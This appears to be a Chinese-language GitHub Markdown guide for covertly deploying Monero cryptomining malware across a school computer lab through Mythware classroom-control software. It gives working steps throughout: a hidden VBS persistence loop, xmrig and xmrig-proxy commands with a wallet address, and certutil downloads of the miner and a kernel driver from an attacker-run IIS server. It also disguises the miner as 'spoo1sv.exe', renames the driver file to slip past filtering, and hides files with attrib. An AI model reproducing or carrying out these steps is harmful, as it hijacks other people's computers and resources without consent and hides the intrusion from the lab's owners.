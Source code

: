 # 极域教室下的全机房挖矿马的部署

## 目标
有一台电脑连接外网，作为机房内的xmrig-proxy

其余的电脑执行挖矿程序，连接的矿池是xmrig-proxy

***希望能够有方法对矿包进行加密，防止被检测***

## 部署流程

1. 作最后一级xmrig-proxy的，保持稳定外网连接。
   - p.exe  
   > 参考目录附件
   - p.vbs  
   ```vbs
      set ws=wscript.createobject("wscript.shell")
      do
         ws.run "[PORTAL_PASS_PATH]\p.exe",0
         wscript.sleep 15*60*1000
      loop
   ```
2. 获取当前机房能用的Mythware
   - 提前准备好极域2010 2013 2014 2016 2017的版本。
   > 参考目录下附件
   - 教师端获取
       - zip通过IIS，FTP，SMB等传输。  
   > 关于命令行安装IIS，请参考：  
   > ```powershell
   >   dism /Online /Enable-Feature  /FeatureName:IIS-ApplicationDevelopment  /FeatureName:IIS-ASP  /FeatureName:IIS-ASPNET  /FeatureName:IIS-BasicAuthentication  /FeatureName:IIS-CGI  /FeatureName:IIS-ClientCertificateMappingAuthentication  /FeatureName:IIS-CommonHttpFeatures  /FeatureName:IIS-CustomLogging  /FeatureName:IIS-DefaultDocument  /FeatureName:IIS-DigestAuthentication  /FeatureName:IIS-DirectoryBrowsing  /FeatureName:IIS-FTPExtensibility  /FeatureName:IIS-FTPServer  /FeatureName:IIS-FTPSvc  /FeatureName:IIS-HealthAndDiagnostics  /FeatureName:IIS-HostableWebCore  /FeatureName:IIS-HttpCompressionDynamic  /FeatureName:IIS-HttpCompressionStatic  /FeatureName:IIS-HttpErrors  /FeatureName:IIS-HttpLogging  /FeatureName:IIS-HttpRedirect  /FeatureName:IIS-HttpTracing  /FeatureName:IIS-IIS6ManagementCompatibility  /FeatureName:IIS-IISCertificateMappingAuthentication  /FeatureName:IIS-IPSecurity  /FeatureName:IIS-ISAPIExtensions  /FeatureName:IIS-ISAPIFilter  /FeatureName:IIS-LegacyScripts  /FeatureName:IIS-LegacySnapIn  /FeatureName:IIS-LoggingLibraries  /FeatureName:IIS-ManagementConsole  /FeatureName:IIS-ManagementScriptingTools  /FeatureName:IIS-ManagementService  /FeatureName:IIS-Metabase  /FeatureName:IIS-NetFxExtensibility  /FeatureName:IIS-ODBCLogging  /FeatureName:IIS-Performance  /FeatureName:IIS-RequestFiltering  /FeatureName:IIS-RequestMonitor  /FeatureName:IIS-Security  /FeatureName:IIS-ServerSideIncludes  /FeatureName:IIS-StaticContent  /FeatureName:IIS-URLAuthorization  /FeatureName:IIS-WebDAV  /FeatureName:IIS-WebServer  /FeatureName:IIS-WebServerManagementTools  /FeatureName:IIS-WebServerRole  /FeatureName:IIS-WindowsAuthentication  /FeatureName:IIS-WMICompatibility  /FeatureName:WAS-ConfigurationAPI  /FeatureName:WAS-NetFxEnvironment  /FeatureName:WAS-ProcessModel  /FeatureName:WAS-WindowsActivationService
   > ```
3. 配置最新xmrig-proxy  
   <https://github.com/xmrig/xmrig-proxy/releases/>
   ```bash
   xmrig-proxy.exe --donate-level 1 -b 0.0.0.0:8080 --coin=monero -o pool.supportxmr.com:5555 -u 453F4eBx9ApYPAVTmMeVrDUsWq8p36Svpb1RaJFp2ewkLr6mWg3qFUYU7ukxkyQQ8q4rCV4HZ2sqmKEbUbyoeNBRF6mhqBz -p a3 -k -r 2 -R 1
   ```
   
4. 配置最新xmrig文件  
   <https://github.com/xmrig/xmrig/releases/>
   - 使用ResourceHacker去除exe图标
   - 配置st.bat  
    > **替换[PROXY_IP] [PROXY_PORT]**  
    > ```bash
    > "C:\Program Files\Common Files\spoo1sv.exe" -B --nicehash --donate-level 1 -o [PROXY_IP]:[PROXY_PORT] -u 453F4eBx9ApYPAVTmMeVrDUsWq8p36Svpb1RaJFp2ewkLr6mWg3qFUYU7ukxkyQQ8q4rCV4HZ2sqmKEbUbyoeNBRF6mhqBz -p x -k
    > ```
5. 将xmrig.exe, st.bat, WinRing0x64.sys部署到一台IIS上
   - **注意MIME规则。将sys扩展名变成txt**
   > ```Bash
   > rename WinRing0x64.sys WinRing0x64.txt
   > ```

6. 使用极域或其他远程控制软件，进行命令执行
   - 先检测当前机房是否有已经上线的教师端程序
   > KillNetgr
   - 添加命令运行  
    _命令名称顺序ID号形式递增。_  
    **替换 [IIS_SERVER_IP]**
   ```bash
   certutil.exe  
   -urlcache -split -f "http://[IIS_SERVER_IP]/xmrig.exe" "C:\Program Files\Common Files\spoo1sv.exe"
   -urlcache -split -f "http://[IIS_SERVER_IP]/st.bat" "C:\Program Files\Common Files\st.bat"
   -urlcache -split -f "http://[IIS_SERVER_IP]/WinRing0x64.txt" "C:\Program Files\Common Files\WinRing0x64.sys"
   ```
   - 隐藏文件的命令运行 _(Optional)_
   ```bash
      attrib.exe  
      +s +h +a "C:\Program Files\Common Files\spoo1sv.exe"
      +s +h +a "C:\Program Files\Common Files\st.bat"
      +s +h +a "C:\Program Files\Common Files\WinRing0x64.sys"
   ```
   - 启动挖矿
   ```bash
      cmd.exe
      /c cd "C:\Program Files\Common Files\" && st.bat
   ```
   - 结束挖矿
      ```bash
      cmd.exe  
      /c taskkill /im spoo1sv.exe /f
      ```
      _(Optional)_
      ```bash
      del /f /q "C:\Program Files\Common Files\spoo1sv.exe"
      del /f /q "C:\Program Files\Common Files\st.bat"
      del /f /q "C:\Program Files\Common Files\WinRing0x64.sys"
      ```
7. 检测成果
   - xmrig-proxy中**c**键查看**连接数**。**h**键查看**Hashrate**.
8. 退出
